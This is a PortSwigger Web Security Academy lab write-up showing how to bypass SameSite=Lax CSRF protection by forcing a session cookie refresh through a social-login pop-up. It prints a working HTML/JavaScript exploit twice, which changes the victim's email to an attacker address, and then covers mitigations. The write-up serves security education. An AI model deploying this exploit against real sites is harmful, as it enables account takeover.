


# Lab 10: SameSite Lax Bypass via Cookie Refresh

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 10
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — SameSite Lax Bypass via Cookie Refresh

## Vulnerability Summary
The application relies on `SameSite=Lax` as its primary CSRF defence — no CSRF token is present on the email-change endpoint. Browsers apply a temporary exception to `SameSite=Lax` for cookies issued within the last 120 seconds: top-level cross-site POST requests are permitted during this window to support OAuth-style flows. By tricking the victim into triggering a fresh cookie issuance (via a pop-up that opens the OAuth login flow) and then immediately submitting a cross-site POST form, the attacker exploits this 2-minute grace period to bypass the SameSite restriction entirely.

## Attack Methodology

### Step 1: Recon
Logged in and intercepted the email-change request:

```
POST /my-account/change-email HTTP/2
Host: 0ac4000a04a7834881f2acf6001e002b.web-security-academy.net
Cookie: session=<token>
Content-Type: application/x-www-form-urlencoded

email=test%40test.com
```

No CSRF token. Session cookie is set with `SameSite=Lax`. A direct cross-site POST would be blocked — the cookie would not be sent.

### Step 2: Identify the Cookie Refresh Vector
Discovered that the application supports an OAuth-based social login flow. Navigating to the OAuth endpoint issues a **fresh session cookie** — resetting the 120-second Lax grace period. This endpoint can be opened in a pop-up window from the exploit server, causing the victim's browser to receive a new cookie without leaving the attacker's page.

### Step 3: Understanding the Lax Grace Period
Browsers implementing the Lax-allowing-unsafe mitigation permit `SameSite=Lax` cookies on cross-site POST requests if the cookie was set within the last 120 seconds. The rationale is to avoid breaking OAuth POST-back flows. An attacker who can force a cookie refresh can exploit this window.

### Step 4: Crafting the Exploit
The exploit:
1. Opens a pop-up to the OAuth login endpoint to trigger a fresh cookie issuance
2. Waits briefly for the cookie to be set
3. Submits a cross-site POST form to change the victim's email — within the 120-second window

```html
<form method="POST" action="https://0ac4000a04a7834881f2acf6001e002b.web-security-academy.net/my-account/change-email" id="csrf-form">
    <input type="hidden" name="email" value="chai-garamchai@attacker.com">
</form>
<p>Click anywhere on the page</p>
<script>
    var formSubmitted = false;

    window.onclick = () => {
        if (!formSubmitted) {
            window.open('https://0ac4000a04a7834881f2acf6001e002b.web-security-academy.net/social-login');
            setTimeout(() => {
                document.getElementById('csrf-form').submit();
                formSubmitted = true;
            }, 5000);
        }
    }
</script>
```

The `onclick` handler requires a single user interaction (a click anywhere) to open the pop-up — necessary because browsers block pop-ups without a user gesture. The `setTimeout` of 5 seconds gives the OAuth flow enough time to issue the fresh cookie before the form submits.

### Step 5: Delivering the Exploit
- Pasted the payload into the Exploit Server body
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results





Lab marked as **Solved** — victim's email changed. Burp HTTP history confirms the cross-site POST was accepted with `Sec-Fetch-Site: cross-site`, proving the SameSite=Lax grace period was exploited.

## Technical Root Cause

```python
# ❌ Vulnerable — no CSRF token, relies solely on SameSite=Lax
response.set_cookie('session', token, samesite='Lax', secure=True, httponly=True)

# The Lax grace period (browser behaviour):
# If cookie age < 120s → allow cross-site POST (unsafe method)
# Attacker forces cookie refresh → resets the clock → POST goes through

# ✅ Secure — CSRF token required regardless of SameSite
def change_email(request):
    if not validate_csrf_token(request):
        return HttpResponseForbidden('Invalid CSRF token')
    ...
```

### Why This Works

| Scenario | Cookie Age | SameSite=Lax Allows Cross-Site POST? | Result |
|----------|-----------|--------------------------------------|--------|
| Normal cross-site POST | > 120s | ❌ No | ❌ Blocked |
| Cross-site POST after cookie refresh | < 120s | ✅ Yes (grace period) | ✅ Yes — **vulnerable** |

## Impact
- **SameSite=Lax Bypassed**: The grace period, intended for OAuth flows, is weaponised to allow arbitrary cross-site POSTs
- **Account Takeover**: Email change → password reset to attacker's inbox → full takeover
- **Single Click Required**: The pop-up requires one user interaction, but this is trivially achievable with social engineering ("Click anywhere to continue")
- **No CSRF Token**: The endpoint has no token — bypassing SameSite is sufficient

## Proof of Concept

**Full Exploit (as used)**
```html
<form method="POST" action="https://0ac4000a04a7834881f2acf6001e002b.web-security-academy.net/my-account/change-email" id="csrf-form">
    <input type="hidden" name="email" value="chai-garamchai@attacker.com">
</form>
<p>Click anywhere on the page</p>
<script>
    var formSubmitted = false;
    window.onclick = () => {
        if (!formSubmitted) {
            window.open('https://0ac4000a04a7834881f2acf6001e002b.web-security-academy.net/social-login');
            setTimeout(() => {
                document.getElementById('csrf-form').submit();
                formSubmitted = true;
            }, 5000);
        }
    }
</script>
```

## Key Takeaways
1. **SameSite=Lax Has a 120-Second Grace Period**: Browsers allow cross-site POST requests for freshly issued cookies to support OAuth. This is a known, exploitable behaviour — do not rely on SameSite=Lax alone.
2. **OAuth Endpoints Are Cookie Refresh Vectors**: Any endpoint that issues a new session cookie can be used to reset the grace period timer.
3. **Pop-ups Bypass the Cross-Site Navigation Restriction**: Opening a same-site URL in a pop-up from the exploit server causes the browser to issue a fresh cookie without navigating the victim away from the attacker's page.
4. **One Click Is Enough**: The pop-up blocker requires a user gesture, but a single click anywhere on a convincing page is all that's needed.
5. **CSRF Tokens Are Non-Negotiable**: SameSite is defence-in-depth. A CSRF token on every state-changing endpoint would have stopped this attack regardless of the SameSite bypass.

## Mitigation

### 1. Add CSRF Tokens to All State-Changing Endpoints
```html
<!-- Server renders token into every form -->
<form method="POST" action="/my-account/change-email">
    <input type="hidden" name="csrf" value="{{ csrf_token }}">
    <input type="email" name="email">
    <button type="submit">Update</button>
</form>
```

### 2. Use SameSite=Strict Where Possible
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```
`Strict` has no grace period and blocks all cross-site requests including top-level navigations.

### 3. Validate the Origin Header
```python
allowed_origin = 'https://0ac4000a04a7834881f2acf6001e002b.web-security-academy.net'
if request.META.get('HTTP_ORIGIN') != allowed_origin:
    return HttpResponseForbidden()
```

### 4. Require Re-authentication for Sensitive Actions
Prompting for the current password before changing the email address prevents exploitation even if CSRF is achieved.

## References
- [PortSwigger CSRF Lab - SameSite Lax Bypass via Cookie Refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-cookie-refresh)
- [PortSwigger SameSite Cookie Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)
- [Chrome SameSite Lax + POST Grace Period](https://www.chromium.org/updates/same-site/)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-19*
*Writeup by vibhxr*
